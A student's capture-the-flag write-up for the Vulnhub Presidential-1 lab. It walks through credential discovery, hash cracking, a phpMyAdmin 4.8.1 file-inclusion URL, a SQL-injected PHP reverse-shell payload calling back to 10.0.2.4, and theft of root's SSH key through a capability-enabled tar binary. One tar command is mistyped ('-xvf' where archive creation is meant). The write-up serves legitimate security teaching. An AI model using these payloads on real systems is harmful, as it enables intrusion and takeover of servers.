

# Report Presidential Hacking
Cybersecurity Course - University of Trieste - Academic year 2023/2024

Simone Cossaro IN2000201

## Introduction

This report details the steps taken to solve the Vulnhub CTF (Capture the Flag) challenge known as Presidential-1.
Capture the Flag challenges are a cornerstone in the training and development of cybersecurity professionals. These competitions are designed to simulate real-world scenarios where participants must apply their knowledge and skills to solve security-related problems. 

In the scenario of Presidential-1, the U.S. state is developing a registration website for presidential elections and seeks to test the security of the server before launching the website and registration system. One political party is concerned that the opposing party might commit electoral fraud by hacking into the registration system and falsifying votes.

The objective of the challenge is to gain root access to the server.

The attack was conducted following the walkthrough available [here](https://www.hackingarticles.in/presidential-1-vulnhub-walkthrough/).

## Tools

VirtualBox is required for this challenge to run the following two virtual machines:
* the Presidential VM, available on Vulnhub [here](https://www.vulnhub.com/entry/presidential-1,500/)
* an attacking Kali Linux VM
  
Both virtual machines are connected to the same network with NAT.

## Recognition

The first step of the attack is reconnaissance. The shell command `netdiscover` automates the discovery of live hosts on a network. Executing it helps determine if the presidential machine is connected to the network and identifies its IP address.

Once the IP address of the machine (10.0.2.8) is identified, we proceed to identify the services, open ports, and software versions on it using the `nmap` command.

  

The scan reveals that the machine is running a web service on port 80 with HTTP protocol and a remote shell on port 2082 with SSH protocol.

## Enumeration

Visiting the main page of the web service on port 80 and scrolling to the bottom reveals an email address (contact@votenow.local), providing the domain name: votenow.local. The domain name can be associated with the IP address by adding a line to the '/etc/hosts' file.

In this enumeration phase, Gobuster, a tool for scanning directories and files on web servers, is essential. It locates hidden or unadvertised resources on a web server, such as directories or files that may not be listed directly on a web page but are still accessible.

The Gobuster command specifies the file extensions to search for and the dictionary to use for brute force. Brute force in this context refers to systematically sending HTTP requests for each entry in the provided wordlist. Gobuster tries every word in the wordlist, such as potential directories, files, subdomains, etc., until it finds valid resources or exhausts the options.

  

A 'config.php.bak' file was detected. These files usually contain a backup copy of the original 'config.php' file, which in turn contains important configuration information.

Indeed, the file contains user credentials that may prove useful later.

## Exploiting

Using Gobuster with the vhost option allows the discovery of subdomains. With the dictionary used (/dirbuster/wordlists/directory-list-2.3-medium.txt), a single subdomain was found: datasafe.votenow.local.

The subdomain's web page features an access panel to "phpMyAdmin." By entering the previously obtained credentials, it is possible to log in and access a SQL database containing the hash of an admin user's password.

The hash alone cannot be used, so John the Ripper, a password-cracking tool, is employed. Using the famous rockyou dictionary, the password corresponding to the hash is forced, revealing it to be "Stella."

Browsing the page further, it is noted that the phpMyAdmin version is outdated, listed as 4.8.1 while the latest stable version is 4.9.5.

Searchsploit, a tool for searching known exploits and vulnerabilities, reveals three vulnerabilities for this version, one of which allows command execution. Searchsploit provides detailed information about this vulnerability and how it can be exploited.

To exploit this vulnerability it is necessary to:
1) authenticate
2) obtain the phpMyAdmin cookie
3) execute a SQL query on the web page
4) accurately edit the URL.
   
Authentication was done with the credentials obtained previously.

The phpMyAdmin cookie can be obtained by using the browser inspector and seeing what the value of the cookie named phpMyAdmin is.

After authentication it is possible to execute sql queries on the databases present.

Under normal circumstances, the web application does not interpret or execute code placed within backticks. However, by meticulously crafting the URL and embedding a PHP script within backticks in a SQL query, it becomes possible to execute the script.

The URL must have the following format:

'http://datasafe.votenow.local/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/session/sess_{cookieValue}'

where {cookieValue} is the current session's cookie value.

By listening with a netcat listener on port 443 and injecting a SQL query like:

`select '<?php system("bash -i >& /dev/tcp/10.0.2.4/443 0>&1");?>'`

and structuring the URL as shown, a reverse shell is obtained on the presidential machine.

Once the reverse shell is obtained, authentication on it can be done using the previously extracted admin user credentials.

## Privilege Escalation

The next step is listing the capabilities associated with available executable files using the `getcap` command.  It is noted that the tarS binary has '+EP'. This binary allows the compression of any file on the system without being root. Once compressed, it's possible to read the contents of the file by performing only the decompression.

The '/root/.ssh/' directory contains an 'id_rsa' file, which typically holds an RSA private key for SSH authentication.
By having '+ep', compressing and decompressing the 'id_rsa' file, visibility to its contents is gained.

Compression and decompression are done by the two following commands:

* `tarS -xvf id_rsa.tar /root/.ssh/id_rsa` : creates a tar archive called 'id_rsa.tar' containing the 'id_rsa' file present in the '/root/.ssh/' directory.

* `tar -xvf id_rsa.tar` : extracts the file from the 'id_rsa.tar' archive.

After the execution of these two commands, the 'id_rsa' file can be read.

With the RSA private key, remote connection to the presidential machine as root via SSH protocol is possible.

Once arrived at this point, obtaining the final-flag can be done and it marks the end of the challenge.

